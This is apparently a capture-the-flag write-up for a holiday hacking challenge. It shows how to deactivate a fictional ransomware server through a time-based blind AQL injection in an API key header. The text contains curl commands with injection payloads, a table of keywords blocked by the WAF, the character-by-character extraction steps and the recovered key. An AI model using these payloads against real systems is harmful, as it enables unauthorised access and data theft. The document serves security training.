

# Frostbit Deactivate the Ransomware

## Table of Contents
- [Frostbit Deactivate the Ransomware](#frostbit-deactivate-the-ransomware)
  - [Table of Contents](#table-of-contents)
  - [Overview](#overview)
  - [Objectives](#objectives)
  - [Hints](#hints)
    - [Hint 1: Frostbit Publication](#hint-1-frostbit-publication)
    - [Hint 2: Frostbit Slumber](#hint-2-frostbit-slumber)
  - [Analysis](#analysis)
    - [MQTT Message](#mqtt-message)
    - [API Enumeration](#api-enumeration)
    - [Injection Analysis](#injection-analysis)
    - [Web Application Firewall (WAF)](#web-application-firewall-waf)
    - [Payload Analysis](#payload-analysis)
    - [Injection Type](#injection-type)
  - [Solution](#solution)
    - [AQL (ArangoDB Query Language) Time-Based Blind Injection](#aql-arangodb-query-language-time-based-blind-injection)
      - [Number of attributes in the view](#number-of-attributes-in-the-view)
      - [Length of the attribute name](#length-of-the-attribute-name)
      - [Each letter of the attribute name](#each-letter-of-the-attribute-name)
      - [Length of the attribute value](#length-of-the-attribute-value)
      - [Each letter of the attribute value](#each-letter-of-the-attribute-value)
    - [Answer](#answer)
  - [Final Story](#final-story)
  - [Files](#files)
  - [References](#references)
  - [Navigation](#navigation)

---

## Overview

The final challenge is to deactivate the release of the naughty and nice list.

It’s very common now for ransomware actors to both threaten victims with not being able to get their files back *and* having their files leaked publicly.

## Objectives
Wombley's ransomware server is threatening to publish the Naughty-Nice list. Find a way to deactivate the publication of the Naughty-Nice list by the ransomware server.

## Hints

### Hint 1: Frostbit Publication
**From:** Dusty Giftwrap

**Terminal:** Deactivate Frostbit Naughty-Nice List Publication

There must be a way to deactivate the ransomware server's data publication. Perhaps one of the other North Pole assets revealed something that could help us find the deactivation path. If so, we might be able to trick the Frostbit infrastructure into revealing more details.

### Hint 2: Frostbit Slumber
**From:** Dusty Giftwrap

**Terminal:** Deactivate Frostbit Naughty-Nice List Publication

The Frostbit author may have mitigated the use of certain characters, verbs, and simple authentication bypasses, leaving us blind in this case. Therefore, we might need to trick the application into responding differently based on our input and measure its response. If we know the underlying technology used for data storage, we can replicate it locally using Docker containers, allowing us to develop and test techniques and payloads with greater insight into how the application functions.

---

## Analysis

### MQTT Message
One of the hints talks about the following:

> **Frostbit Dev Mode**
> 
> There's a new ransomware spreading at the North Pole called Frostbit. Its infrastructure looks like code I worked on, but someone modified it to work with the ransomware. If it is our code and they didn't disable dev mode, we might be able to pass extra options to reveal more information. If they are reusing our code or hardware, it might also be broadcasting MQTT messages.

In the previous **Santa Vision** challenge, there was an MQTT message about the following:
```
frostbitfeed Error msg: Unauthorized access attempt. /api/v1/frostbitadmin/bot/<botuuid>/deactivate, authHeader: X-API-Key, status: Invalid Key, alert: Warning, recipient: Wombley
```

It is possible that "some" deactivation may be viable using that endpoint.

### API Enumeration
Let's use the UUID found during the Decrypt challenge: `09c4dbcb-87dd-4d92-b104-852c60a94f3e`
```bash
curl http://api.frostbit.app/api/v1/frostbitadmin/bot/09c4dbcb-87dd-4d92-b104-852c60a94f3e/deactivate -L -H "X-API-Key: Wombley" -v
```
```json
[...]
{"error":"Invalid Request"}
```

From the Decrypt challenge, we know we can send a `debug=1` flag for additional details in the response.
```bash
curl http://api.frostbit.app/api/v1/frostbitadmin/bot/09c4dbcb-87dd-4d92-b104-852c60a94f3e/deactivate?debug=1 -L
```
```json
{"debug":true,"error":"Invalid Key"}
```

### Injection Analysis
The goal is to figure out the API Key to complete the challenge.

We can start with the header attribute as the injection point.

Let's try a traditional SQLi query first:
```bash
curl https://api.frostbit.app/api/v1/frostbitadmin/bot/09c4dbcb-87dd-4d92-b104-852c60a94f3e/deactivate?debug=1 -L -H "X-API-Key: ' OR 1=1 --"
```
```json
{"debug":true,"error":"Timeout or error in query:\nFOR doc IN config\n    FILTER doc.<key_name_omitted> == '{user_supplied_x_api_key}'\n    <other_query_lines_omitted>\n    RETURN doc"}
```

This does NOT look like a SQL database query.
```
FOR doc IN config
    FILTER doc.<key_name_omitted> == '{user_supplied_x_api_key}'
    <other_query_lines_omitted>
    RETURN doc
```

The database query in the error message indicates that the database in question is likely ArangoDB, a multi-model database. This conclusion is based on the syntax of the query, which includes `FOR doc IN <collection>` and `RETURN doc`. These constructs are characteristic of AQL (ArangoDB Query Language).

### Web Application Firewall (WAF)
The `{user_supplied_x_api_key}` in the `FILTER` clause hints at a parameterized query where the input is directly inserted into an AQL query.

Let's test if the `X-API-Key` header input is directly interpolated into the query without proper sanitization. For example, `' OR 1 == 1 RETURN 1 --`

This payload assumes that ArangoDB's AQL syntax is not properly escaped, potentially allowing arbitrary injections:
```bash
curl https://api.frostbit.app/api/v1/frostbitadmin/bot/09c4dbcb-87dd-4d92-b104-852c60a94f3e/deactivate?debug=1 -L -H "X-API-Key: ' OR 1 == 1 RETURN 1 --"
```
```json
{"debug":true,"error":"Request Blocked"}
```

The response indicates that the server is performing validation or sanitization on the `X-API-Key` header, blocking certain types of injection payloads. This could involve a Web Application Firewall (WAF), a custom input validation mechanism, or both. However, the key lies in identifying how the validation is applied and finding an injection payload that bypasses it.

### Payload Analysis
Analyzing responses for different payloads, we can check which high-level operation keywords cause an "Invalid Key" error and which ones cause a "Request Blocked" error.

| Request Blocked |
| --------------- |
| FILTER |
| FOR |
| INSERT |
| LET |
| RETURN |
| UPDATE |
| WITH |

| Invalid Key |
| ----------- |
| AGGREGATE |
| ALL |
| ALL_SHORTEST_PATHS |
| AND |
| ANY |
| ASC |
| COLLECT |
| DESC |
| DISTINCT |
| FALSE |
| GRAPH |
| IN |
| INBOUND |
| INTO |
| K_PATHS |
| K_SHORTEST_PATHS |
| LIKE |
| LIMIT |
| NONE |
| NOT |
| NULL |
| OR |
| OUTBOUND |
| REMOVE |
| REPLACE |
| SEARCH |
| SORT |
| UPSERT |
| WINDOW |

We want to use only the keywords from the "Invalid Key" list.

### Injection Type
Checking the ArangoDB documentation, the `FILTER` operation lets you restrict the results to elements that match arbitrary logical conditions

The syntax is:
```
  FILTER expression
```
where `expression` must be a condition that evaluates to either `false` or `true`.

Considering the query is expecting the following expression:
```
  FILTER doc.<key_name_omitted> == '{user_supplied_x_api_key}'
```
we need to provide a value in the header attribute that would cause the
`==` expression to evaluate to `true` using only the valid keywords above.

From the initial test, we know simple `A OR B` requests where `B` is always `true` do not work.

Looking at the hint, the is an indication that the mitigation measures are "leaving us blind" and that "we might need to trick the application into responding differently based on our input and measure its response".

This points to a "Time-based blind DB query language injection". To confirm this, let's send this value `'OR SLEEP(2) OR '` and check if there is a delay in the response.
```bash
curl https://api.frostbit.app/api/v1/frostbitadmin/bot/09c4dbcb-87dd-4d92-b104-852c60a94f3e/deactivate?debug=1 -L -H "X-Api-Key: 'OR SLEEP(2) OR'"
```
```json
{"debug":true,"error":"Timeout or error in query:\nFOR doc IN config\n    FILTER doc.<key_name_omitted> == '{user_supplied_x_api_key}'\n    <other_query_lines_omitted>\n    RETURN doc"}
```
```
[command took 2s]
```

We can see the request took 2 seconds to respond. The goal now is to find out how to use this to verify the attribute name, i.e., `doc.attributename`.  Once we have that, we can use the same logic to find the value.

---

## Solution

### AQL (ArangoDB Query Language) Time-Based Blind Injection
The AQL commands to submit will be embedded in the payload before the SLEEP(2), i.e.,
```
'OR {command} AND SLEEP(2) OR'
```
and alternate syntax is the following:
```
' OR {command} ? SLEEP(5) : '
```
* If the command fails, then the request would come back right away.
* If the command succeeds, then the request would take the 2 seconds to return.

Based on the AQL documentation, the commands to submit are the following.

#### Number of attributes in the view
```
LENGTH(ATTRIBUTES(doc,true)) == {i}
```
- `ATTRIBUTES(doc,true)` returns an array of all the attributes in the view omitting all system attributes (starting with an underscore, such as `_key` and `_id`)
- `LENGTH(array)` returns the number of elements in the array

We want to iterate with `i` values >= 0 until we find one that takes the 2-second delay:
```bash
curl https://api.frostbit.app/api/v1/frostbitadmin/bot/09c4dbcb-87dd-4d92-b104-852c60a94f3e/deactivate?debug=1 -L -H "X-Api-Key: 'OR LENGTH(ATTRIBUTES(doc,true)) == 1 AND SLEEP(2) OR'"
```
```
  => number of attributes in view = 1
```

#### Length of the attribute name
```
LENGTH(ATTRIBUTES(doc,true)[j]) == {i}
```
- `j := [0,num_attributes)`
- `ATTRIBUTES(doc,true)[j]` returns the `j`th entry of the array, e.g., 0 for the first one.

We want to iterate with `i` values >= 0 until we find one that takes the 2-second delay:
```bash
curl https://api.frostbit.app/api/v1/frostbitadmin/bot/09c4dbcb-87dd-4d92-b104-852c60a94f3e/deactivate?debug=1 -L -H "X-Api-Key: 'OR LENGTH(ATTRIBUTES(doc,true)[0]) == 18 AND SLEEP(2) OR'"
```
```
  => length of attribute name = 18
```

#### Each letter of the attribute name
```
SUBSTRING(ATTRIBUTES(doc,true)[0],{i},1) == '{chr(char_code)}'
```
- `i := [0,attribute_name_length)`
- `char_code := [32,127]` - ASCII range for printable characters.
- `SUBSTRING(value, offset, length)` returns a substring of value, starting at character in offset (starts at 0), taking length characters.

We want to iterate with char_code values until we find one that takes the 2-second delay:
```
  => attribute name = deactivate_api_key
```

#### Length of the attribute value
```
LENGTH(doc.{attr_name}) == {i}
```
- `doc.{name}` returns the value of the attribute in the view with the given name.

We want to iterate with i values >= 0 until we find one that takes the 2-second delay:
```
  => length of attribute value = 36
```

#### Each letter of the attribute value
```
SUBSTRING(doc.{attr_name},{i},1) == '{chr(char_code)}'
```
- `i := [0,attribute_value_length)`
- `char_code := [32,127]` - ASCII range for printable characters

We want to iterate with `char_code` values until we find one that takes the 2-second delay:
```
  => attribute value = abe7a6ad-715e-4e6a-901b-c9279a964f91
```

### Answer
After running the [`aqli_time_based_blind.py`](./aqli_time_based_blind.py) Python script, the API Key is:
```
abe7a6ad-715e-4e6a-901b-c9279a964f91
```

Let's call the deactivate endpoint with the API Key we found:
```bash
curl https://api.frostbit.app/api/v1/frostbitadmin/bot/09c4dbcb-87dd-4d92-b104-852c60a94f3e/deactivate?debug=1 -L -H "X-Api-Key: abe7a6ad-715e-4e6a-901b-c9279a964f91"
```
```json
{"message":"Response status code: 200, Response body: {\"result\":\"success\",\"rid\":\"09c4dbcb-87dd-4d92-b104-852c60a94f3e\",\"hash\":\"74918ec35b4b35421a1b1d28877c41218624c64208b725c9927b6fa4031003dd\",\"uid\":\"85785\"}\nPOSTED WIN RESULTS FOR RID 09c4dbcb-87dd-4d92-b104-852c60a94f3e","status":"Deactivated"}
```

Checking the status page shows that the ransomware has been deactivated:



---

## Final Story

Thank you dear player for bringing peace and order back to the North Pole!

Please talk to Santa in the castle.

**Santa:**

I thought the holidays were truly lost this year. I am so thankful you were here to right the wrongs of my misguided elves. I will ensure they never jeopardize the holidays again. This is the kind of behavior I expect from Jack Frost and his Trolls, not the elves.

But, I suppose I have fault in this as well, since it’s the first time I’ve been away at the start of the season, and after last year’s unconventional holidays.

Plus, I didn’t inform the elves ahead of time. Quite the lesson learned on my part. Even the best of us can always improve.

I know each faction had the best interest of the holidays at heart, even if their methods were misguided. It’s important to have empathy and forgiveness, especially during the holidays.

After all, the greatest gift we give AND receive is time spent with loved ones. Never forget that!

Now let’s put all this behind us and be merry. Until next year! Happy Holidays!

---

## Files

| File | Description |
|---|---|
| `aqli_time_based_blind.py` | AQL time-based blind injection script to extract the API key |

## References

- [`ctf-techniques/web/sqli/`](../../../../../ctf-techniques/web/sqli/README.md) — time-based blind injection technique reference
- [ArangoDB documentation](https://docs.arangodb.com/stable/aql/) — AQL query language reference
- [ArangoDB SLEEP function](https://docs.arangodb.com/stable/aql/functions/miscellaneous/#sleep) — used in the time-based blind injection payload
- [ArangoDB ATTRIBUTES function](https://docs.arangodb.com/stable/aql/functions/document/#attributes) — used to enumerate document attributes
- [OWASP — Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)

---

## Navigation

| |
|:---|
| ← [Frostbit Decrypt the Naughty-Nice List](../frostbit-decrypt-the-naughty-nice-list/README.md) |
